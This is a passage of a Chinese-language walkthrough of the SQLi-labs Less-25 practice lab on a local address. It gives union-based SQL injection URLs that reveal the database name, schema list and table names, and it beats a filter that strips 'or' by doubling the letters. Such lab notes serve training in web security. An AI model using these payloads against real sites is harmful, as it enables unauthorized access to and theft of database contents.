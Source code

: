 #### 查看当前数据库

```
http://192.168.231.129:9001/Less-25/?id=0' union select 1,database(),3%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607142042185.png" alt="image-20230607142042185" style="zoom: 33%;" />

#### 爆库

这里因为 information 这个单词包含了or，所以中间也要做双写

```
http://192.168.231.129:9001/Less-25/?id=0' union select 1,group_concat(schema_name),3 from infoorrmation_schema.schemata%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607142207745.png" alt="image-20230607142207745" style="zoom: 33%;" />

#### 爆表

```
http://192.168.231.129:9001/Less-25/?id=0' union select 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema=database()%23
```

